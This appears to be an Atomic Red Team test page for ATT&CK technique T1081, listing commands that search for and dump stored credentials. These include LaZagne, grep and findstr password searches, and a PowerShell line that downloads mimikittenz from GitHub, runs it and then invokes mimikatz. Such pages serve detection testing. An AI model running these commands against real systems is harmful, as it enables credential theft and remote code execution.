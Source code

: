# T1081 - Credentials in Files
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1081)
<blockquote>Adversaries may search local file systems and remote file shares for files containing passwords. These can be files created by users to store their own credentials, shared credential stores for a group of individuals, configuration files containing passwords for a system or service, or source code/binary files containing embedded passwords.

It is possible to extract passwords from backups or saved virtual machines through [Credential Dumping](https://attack.mitre.org/techniques/T1003). (Citation: CG 2014) Passwords may also be obtained from Group Policy Preferences stored on the Windows Domain Controller. (Citation: SRD GPP)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Browser and System credentials](#atomic-test-1---browser-and-system-credentials)

- [Atomic Test #2 - Extract credentials from files](#atomic-test-2---extract-credentials-from-files)

- [Atomic Test #3 - Mimikatz & Kittenz](#atomic-test-3---mimikatz--kittenz)

- [Atomic Test #4 - Extracting credentials from files](#atomic-test-4---extracting-credentials-from-files)


<br/>

## Atomic Test #1 - Browser and System credentials
[LaZagne Source](https://github.com/AlessandroZ/LaZagne)

**Supported Platforms:** macOS


#### Run it with `sh`!
```
python2 laZagne.py all
```
<br/>
<br/>

## Atomic Test #2 - Extract credentials from files
Extracting credentials from files

**Supported Platforms:** macOS, Linux


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_path | Path to search | String | /|

#### Run it with `sh`!
```
grep -riP password #{file_path}
```
<br/>
<br/>

## Atomic Test #3 - Mimikatz & Kittenz
Mimikatz/kittenz - This will require a Mimikatz executable or invoke-mimikittenz ps module.

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
.{iwr -UseBasicParsing -Uri https://raw.githubusercontent.com/putterpanda/mimikittenz/master/Invoke-mimikittenz.ps1 } iex
invoke-mimikittenz
mimikatz.exe exit
```
<br/>
<br/>

## Atomic Test #4 - Extracting credentials from files
Extracting Credentials from Files

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
findstr /si pass *.xml | *.doc | *.txt | *.xls
ls -R | select-string -Pattern password
```
<br/>
